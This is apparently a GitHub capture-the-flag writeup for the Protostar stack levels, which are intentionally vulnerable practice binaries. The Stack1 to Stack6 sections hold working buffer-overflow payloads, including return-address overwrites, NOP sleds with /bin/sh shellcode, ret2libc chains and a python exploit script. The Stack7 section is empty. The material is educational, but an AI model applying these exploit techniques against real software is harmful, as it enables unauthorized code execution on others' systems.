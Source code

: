 # Exploit-Exercises Protostar Writeup - Stack
## Before Start
Here are some readings to help you understand the stack
[How to smash stack](http://insecure.org/stf/smashstack.html)

## [Stack0](https://exploit-exercises.com/protostar/stack0/)
This is a very basic overflow. Any input having a length greater than 64 works. 


## [Stack1](https://exploit-exercises.com/protostar/stack1/)
On this level, we have to overwrite the value of 'modified' to 0x61626364, which is "abcd" in ascii characters. Protostar is little endian, so we have to reverse it when we write it into a stack.    
	```./stack1 $(python -c 'print "A"*64+"dcba"')```   


## [Stack2](https://exploit-exercises.com/protostar/stack2/)
This one is almost the same as the previous one. The only difference is the buffer comes from a environment variable called "GREENIE".   
We should set the environment variable and then run the program. The commands are:    
	```
	export GREENIE=$(python -c 'print "A"*64+"0x0a0x0d0x0a0xd"')
	./stack2
	```


## [Stack3](https://exploit-exercises.com/protostar/stack3/)
This time, the varaible can be overwritten is a pointer to a function. So what we need to do is find out the address of win() and use this value to overwrite *fp (in little endian).    
Use command ```objdump -D stack3|grep win```. Now we find the address of win() is 08048424.   
Looking at the source code, we can see the buffer comes from standard input this time. So the command should be:     
	```python -c 'print "A"*64+"\x24\x84\x04\x08"' | ./stack3```    


## [Stack4](https://exploit-exercises.com/protostar/stack4/)
This challenge is about EIP overwrite. There's no variable lying on the buffer again. When we overflow the buffer, we will first overwirte the saved EBP(4 Byte), and saved EIP(4 Byte).    
So in this case, the length of the padding will be 64+4=68. And we also need to get the address of win() just as we did in last challenge. It's 080483f4. Now run it! Ooooooops! It failed!! It apperars that there's something more than saved EBP lying between the buffer and the saved EIP. We can use gdb to find it out. (You can also use a pattern long enough to overwrite the EIP and then locate it, as the program will show the error information.)     
We start gdb and set a breakpoint at main(). Then give serveral "A" as the input. We know it will not work, but it can help us to locate the start address of the buffer. Then we use ```info frame``` to check the address of saved eip. We can see it's at 0xbffff7dc.     
![stack4_1](./images/stack4_1.png)     
Now let's look at the data in this frame. It's easy to find that the buffer start at address 0xbffff790. So we can get the length of our padding by calculating 0xbffff7dc-0xbffff790=76. I also look at why we get 8 bytes more than expected. It saves the address of __libc_csu_init and another 4 null bytes. (I didn't figure out the purpose of it)    
![stack4_2](./images/stack4_2.png)
The command should be:    
	```python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4```    


## [Stack5](https://exploit-exercises.com/protostar/stack5/)
In this challenge, we need to exploit the buffer overflow to execute shellcode. I have no idea about what shellcode is expected in this challenge. So I decide to start first. 
The buffer start at address 0xbffff7d0. Saved EIP is at 0xbffff81c. The length is still 76. What we gonna do is to overwrite the saved EIP with the address after, and fill the buffer with our paddings. 
So the structure will look like padding + address + payload(shellcode). The payload can be found on [shell-storm.org](shell-storm.org). I use the 28 Bytes execve(/bin/sh). And then.. I got an "Illegal instrction" error. The reason can be that when the program acturally run, the address may be different with that in gdb. So instead of find out the specific address, we can use a bunch of NOP instruction (\x90) before our shellcode. We just need to make our eip point into the middle of the NOPs, then our shellcode will work.     
The structure of the input looks like:     
```"A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+[shellcode]```    
And when I run the program, there's no more errors, but also no shell executed. This is not what we want. So I turned to gdb again. Then I found something really weird: when I use gdb to dubug it, the shell is actually executed.    
I stuck here for a really long time. I then searched online and found two solutions.    
[1](http://liveoverflow.com/binary_hacking/protostar/stack5.html) | [2](https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/)    
I prefer the second one. So I changed my shellcode, and it works perfectly.     
The whole command will be:    
```python -c 'print "A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' | ./stack5```    
![stack5_1](./images/stack5_1.png)


## [Stack6](https://exploit-exercises.com/protostar/stack6/)
This challenge is a tough one. While looking at the hints, I just have the basic knowledge about those methods. I'm not so skillful at these methods. I have to learn some new stuff to pass this challenge.     
First, I went through the source code. This time, the program will validate the return address after getting buffer from Stdin. The validation is:    
```if((ret & 0xbf000000) == 0xbf000000) {..._exit(1);}```    
That means, if the return address starts with 0xbf, then the program will terminate. From previous challenges, we can know the our stack has the 0xbf addressses. Obviously, we cannot overwrite the EIP with an address in our controlled stack simply.     
We still gotta verify it (it's not mandatory but..Uh, I'm just curious). Again, use gdb to find out the addresses. For getpath() frame, EBP at 0xbffff808, EIP at 0xbffff80c. Buffer starts from 0xbffff7bc. The offset is 80. 
![stack6_1](./images/stack6_1.png)    
### Method1 [ret2libc]
It's not surprise that it hits the "exit" branch. We have to think about another way to attack. So I first looked at [ret2libc](./readings/ret2libc.pdf). This is a very basic and detailed tutorial. So now I learn what we need to do is ret to the address of system() and pass "/bin/sh" as parameter. Let's have a try!    
I turned into gdb, set a bp, and run stack6. I just print out the stack using ```x/1000s $esp``` to find the "/bin/sh". Luckily, I found it as part of a string. The "/bin/sh" lies at 0xbfffffba. If you cannot find it, you can set "/bin/sh" as the value of an environment variable, and then use it. System()'s address is 0xb7ecffb0.    
![stack6_2](./images/stack6_2.png)    
Also _exit_ and _printf_ functions' address are also necessary. On my side, _exit_ is at 0xb7ec60c0, _printf_ is at 0xb7eddf90.
The structure of the input would be **padding|system()|exit()|"/bin/sh"**. Try it! Ooooops. Not working... The same problem: the address in may be differ from the real one. ([WHY?](http://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code)) We can set exec-wrpper in gdb to solve the problem. (We may also look at Core Dump). I tried set a new environment variables with value "```////////////////////////////////////////////////////////////bin/sh```" to make it easier to hit this variable. (It does work)
Also, we can search '/bin/sh' in libc, so that we can avoid the unpredictable changes of environment variables.     
In gdb, at any breakpoint, use ```info proc map``` to find the address of loaded libs. 0xb7e9700 in this case. 
![stack6_3](./images/stack6_3.png)
Then go back to our bash, ``` strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh``` can help us to find the offset of '/bin/sh' in the lib, which is 0x11f3bf. Now we can easily know the address of "/bin/sh".
![stack6_4](./images/stack6_4.png)
Okay, let's do it again.    
```
python -c 'print "A"*80+"\xb0\xff\xec\xb7"+"\xc0\x60\xec\xb7"+"\xbf\x63\xfb\xb7"' > /tmp/stack6
cat /tmp/stack6; cat | ./stack6
```     
![stack6_5](./images/stack6_5.png)
Done!

### Method2
We can bypass the validation of ret address with ret2lib. However, that's not the real arbitary code execution. Even though there're a lot API to use, we cannot run our own shellcode using ret2lib. This time, we will try to bypass the ret validation and still run our shellcode on stack space.     
We gonna find 'ret' instruction in text segment (or wherever the address is not start with 0xbf). The 'ret' instruction is easy to find. In gdb, ```disass main``` ( or any other function also works) and we can find the 'ret' insturcion at 0x08048508. We can overwrite saved EIP with this address. Think about what will happen if the program runs.     
When the program returns from getpaht function, the EIP will point to another 'ret' instruction. Thus, the content at address esp+4 will then be loaded into eip, and this value is not validated. What we gonna do is using the address of 'ret' instruction as saved eip to pass validation, and fill the following address with the address of our shellcode, which works as the 'real' ret adress. 
The rest part are just the same as Stack5.    
My python script:
```
import struct

# start address: 0xbffff7bc
padding = 'A' * 76 + 'B'*4
eip = struct.pack("<I",0x08048508)
addr = struct.pack("<I",0xbffff900)
# start address: 0xbffff814
nops = '\x90' *300
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

payload = padding + eip + addr + nops + shellcode

print payload

```
![stack6_6](images/stack6_6.png)   
    
Another method mentioned is ROP chain. But I decide not to use it in this challenge. 

## [Stack7](https://exploit-exercises.com/protostar/stack7/)
